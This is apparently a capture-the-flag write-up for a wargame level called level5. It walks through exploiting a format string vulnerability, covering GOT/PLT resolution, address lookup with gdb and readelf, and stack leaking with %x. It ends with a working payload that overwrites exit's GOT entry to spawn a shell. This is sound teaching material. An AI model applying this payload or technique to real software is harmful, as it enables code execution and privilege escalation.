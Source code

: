 # level5
- This program has the same vulnerability as the previous two levels: __format string vulnerability__., 
- A function named `o` runs a shell, but is never called
- `main()` calls `n()` then returns.
- `n()` finishes calling `exit()`. it is a subroutine that doen't return. So we can't overwrite the return address of `n` to point to `o`.

## Goal
Modify the call of `exit()` by the call of `o()`

## Step 1
`exit()` is called through the __PLT (Procedure Linkage Table)__ resolution. __PLT__ link code to the __GOT__
```console
Dump of assembler code for function n:
   [...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

It's mean that `exit` is a dependecy of the program (extern), which is bind to the program thanks to the __PLT__ and __GOT__ mechanism (same for libc),   
> *the purpose is to reduce size of the binary.*  

__GOT__ is a table of addresses where we can find the dependencies addresses.


Since __PIE__ is disabled, the __GOT__ is always at the same address.


## Step 2

```bash
(gdb) p &o
$1 = (<text variable, no debug info> *) 0x80484a4 <o>
--- OR ---
objdump -t level5
080484a4 g     F .text	0000001e              o
```
`o` is at `0x80484a4`

---

```bash
$ readelf -r level5 | grep exit
08049828  00000207 R_386_JUMP_SLOT   00000000   _exit
08049838  00000607 R_386_JUMP_SLOT   00000000   exit
```

__GOT__ stores  the __address__ of `exit` at `0x8049838`

### Notice
*seen early*
```console
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```  
> 0x80483d0 is not the address of `exit`, it's the address of the __PLT__ entry of `exit`

> 0x8049838 is not the address of `exit`, it's the entry address of the __GOT__ where the address of `exit` is stored 

## Step 3
Lets try to overwrite the __GOT__ entry of `exit` with the address of `o`

```bash
$ gdb level5
(gdb) b *main
(gdb) r
(gdb) set {int}0x8049838=0x80484a4
(gdb) c
$ whoami
level5
(gdb)
```

It works, we have a shell with the user `level5` privileges. (gdb run with the same privileges as the user not the SUID bit permissions)


## step 4

We have to leaks the memory until we reach the address of `exit()`

```bash
(python -c 'print "AAAA " + "%x " * 10000'; cat)  | /home/user/level5/level5 | grep 8049838
```
We never reach the address of `exit()`. But we reach the buffer

```bash
(python -c 'print "AAAA " + "%x " * 16'; cat)  | /home/user/level5/level5
```
```console
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
```

Buffer is at the 4th position

## Exploit


- Write the __GOT__'s address which store `exit` in the buffer.
- Write 134513828 characters total == Decimal value for `o()`'s address
- Access to the buffer through the __4th__ specifier
- Write the total printed characters with `%n` in the pointer of `exit`. this will make the pointer point to `o` modifying  the content of the pointer.



```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"'; cat)  | /home/user/level5/level5
```

